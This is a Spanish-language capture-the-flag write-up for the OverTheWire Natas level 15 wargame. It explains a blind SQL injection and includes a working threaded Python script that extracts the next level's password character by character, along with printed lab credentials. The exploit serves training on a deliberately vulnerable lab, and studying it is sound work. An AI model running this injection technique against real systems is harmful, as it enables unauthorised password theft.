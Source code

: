 # Natas 15

#### URL: http://natas15.natas.labs.overthewire.org
#### Credenciales: natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

Aqui necesitamos obtener la contraseña por medio de una inyección SQL, pero el programa solo nos dice que el usuario existe si el resultado de la peticion devuelve al menos una fila

``` php
if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
```

Tendremos que hacerlo a ciegas, probando caracter a caracter hasta encontrar los 32 caracteres validos de la contraseña 

Podemos tanto usar la funcion SUBSTRING como el operador LIKE con la palabra clave BINARY para hacerlo sensible a mayusculas

``` python3
from base64 import b64encode
import requests
import string
import threading
import sys

URL="http://natas15.natas.labs.overthewire.org/index.php"
headers={'Authorization':f'Basic {b64encode(b"natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx").decode()}'}
book = string.ascii_letters + string.digits
passwd = ""
threads = []

def requester(c):
        global found_char
        data = {'username':f'natas16" AND BINARY password LIKE "{passwd+c}%" -- '}
        x = requests.post(URL,headers=headers,data=data)
        if "This user exists." in x.text:
            found_char=c

for i in range(1,32+1):
    found_char=None
    for c in book:
        t = threading.Thread(target=requester,args=(c,)) 
        threads.append(t)
        t.start()
    for t in threads:
        t.join()
    if found_char:
        passwd+=found_char
        print(f"Caracter encontrado: {found_char} ----> {passwd}")
    else:
        sys.exit(1)
print(passwd)
```

Ejecutando este script con `python3 script.py` nos da como resultado hPkjKYviLQctEW33QmuXL6eDVfMW4sGo.

`natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`

